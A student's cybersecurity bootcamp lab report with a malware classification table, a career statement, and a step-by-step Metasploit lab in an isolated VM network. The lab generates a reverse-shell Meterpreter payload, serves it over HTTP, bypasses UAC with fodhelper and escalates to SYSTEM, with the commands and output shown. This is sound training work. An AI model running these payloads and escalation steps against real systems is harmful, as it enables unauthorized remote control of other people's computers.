# Day 4 — Client-Side Attacks, Payloads and Career Paths

**Digital Forensics & Cyber Security Bootcamp · Atomcamp**
Trainer: Waseem Abbas Khan — Senior Cybersecurity Specialist, CEI Master Trainer
Student: Muhammad Zain Nasir
Lab environment: Kali Linux + Windows 10 x64, VMware Workstation, host-only network

---

## Legal and Scope Statement

This payload lab was performed entirely within an isolated, host-only VMware network consisting of a Kali Linux attacker VM and a Windows 10 target VM, both of which I own and control as part of the Atomcamp Digital Forensics & Cyber Security bootcamp under trainer Waseem Abbas Khan. No payload was generated for, delivered to, or executed against any system or person outside this trainer-assigned, sandboxed environment, and the host-only network configuration was verified (via `ping` and `nmap`) to have no route to any external or production network before any payload activity began. This exercise was conducted strictly for educational purposes, under the defined scope of the bootcamp curriculum. I acknowledge that generating or delivering such a payload against any system without explicit authorization would constitute an offense under the Prevention of Electronic Crimes Act (PECA) 2016 in Pakistan, and that the professional and lawful use of these techniques requires a written scope of engagement, informed client consent, and a documented report — exactly the standard this lab was designed to instill.

---

## Task A — Malware Classification Table (30%)

| Family | How it spreads | What it does | User interaction | Real example | Control that would have stopped it |
|---|---|---|---|---|---|
| Virus | Attaches to a legitimate file/program | Executes when host file runs; infects other files | Required — user must run infected file | Melissa (1999) | Antivirus signature scanning + user training not to run unverified attachments |
| Worm | Self-propagates across networks, no host file needed | Spreads autonomously, often delivers a payload | None | WannaCry (2017), Conficker | Patch management (MS17-010) + network segmentation |
| Trojan | Poses as legitimate software | Opens backdoor / installs other malware once run | Required — user installs/runs it | Emotet, Zeus | Application control (AppLocker/WDAC) + verifying software sources before install |
| Ransomware | Phishing, exploitation, or worm delivery | Encrypts data, demands payment | Usually required (unless worm-delivered) | WannaCry, LockBit | Offline/immutable backups + email filtering + patching |
| Spyware | Bundled with software or delivered by trojan | Collects keystrokes, screenshots, browsing activity | Sometimes, often silent | Agent Tesla, FinFisher | Endpoint detection (EDR) monitoring process behaviour |
| Adware | Bundled with free software | Injects ads, sometimes proxies traffic | Installation required | Fireball | Vetting software sources + application whitelisting |
| Rootkit | Installed after another compromise | Hides attacker presence at kernel/firmware level | None after installation | TDL-4, Necurs | Secure boot + firmware integrity checks + kernel-level monitoring |
| Botnet agent | Via worm, trojan, or exploitation | Enrols host in remote-controlled network | Varies | Mirai (IoT) | Changing default credentials + network egress filtering |
| Fileless malware | Uses legitimate tools already on system | Lives in memory/registry, almost no disk footprint | Often via document macro | PowerShell Empire, Poweliks | Behavioural detection (Sysmon + SIEM correlation of process parentage/command-line args) |

**Note on the defining distinction:** user interaction is what separates these into defensible categories — a virus/trojan needs a person to make a bad decision (so training + filtering help), while a worm needs none (so only patching and segmentation help). Fileless malware defeats tool-based blocking entirely since it abuses signed binaries already on the system, which is why behavioural detection (not signature-based AV) is the only effective control.

---

## Task B — Payload Lab Write-Up (40%)

### Step 1 — Identify both VM IPs

**Windows 10** (`ipconfig`): `192.168.206.129`
**Kali Linux** (`ip -br addr show`): `192.168.206.128`




### Step 2 — Verify network isolation

Ran a host-discovery scan across the subnet to confirm both VMs were visible to each other, then pinged the Windows host and an external address to confirm there was no route out of the lab network:

```bash
nmap -sn 192.168.206.0/24
ping -c 2 192.168.206.129
ping -c 2 -W 1 8.8.8.8 ; echo "internet exit=$?"
```

The ping to Windows initially returned 100% packet loss — not a network fault, but Windows Defender Firewall blocking inbound ICMP by default. The ping to 8.8.8.8 correctly failed ("Network is unreachable"), confirming the lab has no internet egress.



To get a clean ICMP reply for documentation, an inbound ICMPv4 allow rule was added on Windows (admin cmd):

```
netsh advfirewall firewall add rule name="Allow ICMPv4" protocol=icmpv4:8,any dir=in action=allow
```



Re-running the ping confirmed 0% packet loss:



### Step 3 — Generate the payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.206.128 LPORT=4433 -f exe -o win.exe
```

Output matched expected values: 355-byte raw payload, 7168-byte final `win.exe`.



### Step 4 — Start the multi/handler

```
msfconsole -q
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.206.128
set LPORT 4433
run
```

```
[*] Started reverse TCP handler on 192.168.206.128:4433
```



### Step 5 — Deliver the payload

Served the payload via a simple HTTP server on Kali and downloaded it in the Windows browser:

```bash
cd ~/lab
python3 -m http.server 8080
```

```
http://192.168.206.128:8080/win.exe
```

The download completed and the Kali server log confirmed the `GET /win.exe` request from `192.168.206.129` returned `200`.




### Step 6 — Execute and catch the session

Running `win.exe` on the Windows VM triggered the callback:

```
[*] Meterpreter session 1 opened (192.168.206.128:4433 -> 192.168.206.129:49675)
meterpreter > getuid
Server username: DESKTOP-C7OT07V\Fool
```



### Step 7 — Attempt privilege escalation (expected failure)

```
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: All pipe instances are busy.
```

All default named-pipe impersonation and token duplication techniques failed. This differs slightly from the handout's demo error ("Access is denied") but the outcome is the same: the current filtered, standard-user token cannot be escalated to SYSTEM through any of Meterpreter's default `getsystem` techniques. This is UAC doing exactly what it's designed to do — a non-elevated session cannot silently obtain administrative rights.



### Step 8 — Bypass UAC

```
background
search bypassuac
use exploit/windows/local/bypassuac_fodhelper
set SESSION 1
set LHOST 192.168.206.128
set LPORT 4433
exploit
```

```
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Meterpreter session 2 opened (192.168.206.128:4433 -> 192.168.206.129:49677)
```

The `fodhelper` module abuses an auto-elevating Windows binary (`fodhelper.exe`) rather than exploiting a cryptographic flaw, which is why it still works on current builds.




### Step 9 — Confirm SYSTEM access

```
meterpreter > getuid
Server username: DESKTOP-C7OT07V\Fool
meterpreter > getsystem -t 1
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

The username shown by `getuid` did not change after the bypass — isolation and privilege are properties of the access **token**, not the display name. Once the UAC bypass delivered an elevated token, `getsystem` succeeded via Named Pipe Impersonation, confirmed by the final `getuid` returning `NT AUTHORITY\SYSTEM`.



---

## Task C — Career Statement (30%)

I am working toward becoming a SOC analyst, but not through the conventional route of alert-queue triage alone. My interest lies in researching how Security Operations Centers can be advanced using modern AI infrastructure — specifically, moving SOC design away from a *predictability-driven* model (static rules, known signatures, human-paced correlation) toward a *mechanism-driven* model, where detection and response are grounded in how an attack actually operates rather than in whether it matches a prior pattern. This distinction is central to the emerging "agentic SOC" literature, including Omar Santos's *Agentic AI for Cybersecurity: Building Autonomous Defenders and Adversaries* (Cisco Press, 2026), which frames the shift from human analysts manually correlating logs at 3 a.m. toward autonomous agents that triage, investigate, and act in real time.

My entry credential will be the eJPT, building toward OSCP as I move from offensive fundamentals into applied detection engineering. In three months, my portfolio will include: this bootcamp's GitHub repository documenting hands-on payload, scanning, and privilege-escalation work; a home-lab Wazuh/SIEM deployment correlating Sysmon data for behavioral detection, directly informed by what this course has shown about fileless malware defeating signature-based tools; and early design notes — possibly a working prototype — for one or two external AI-driven layers that sit alongside a traditional SOC stack to improve detection speed, analyst agility, and response accuracy without replacing human judgment. This is the direction my MPhil research in AI and cybersecurity is also converging toward, so this bootcamp functions as the practical foundation for a line of work I intend to pursue at both the industry and research level.

---

*Submitted to `/s08-client-side`.*
